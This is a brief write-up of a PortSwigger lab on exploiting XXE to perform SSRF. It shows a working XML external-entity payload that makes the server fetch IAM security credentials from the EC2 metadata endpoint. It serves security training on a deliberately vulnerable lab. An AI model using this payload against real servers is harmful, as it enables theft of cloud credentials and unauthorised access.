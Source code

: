 # XXE to perform SSRF

## Description

Link: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

>![](imgs/2021-07-13-19-22-52.png)

## Writeup

We can modify the XML sent to the server in the `check stock` feature and see what happens

>![](imgs/2021-07-13-19-36-34.png)

If the `productId` does not contain a valid value, then an error message will be displayed.

We know that it is vulnerable to XXE. We can access the EC2 metadata endpoint and look for the IAM secret. With some googling and trial and error we find the correct path to the IAM secret credentials, namely `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin`


So our XML will look like

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
    <productId>
        &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

And we get the secrets

>![](imgs/2021-07-13-19-56-26.png)

We successfully exploited an XXE vulnerability to perform a SSRF attack and retrieve the IAM secret credentials from the EC2 metadata instance.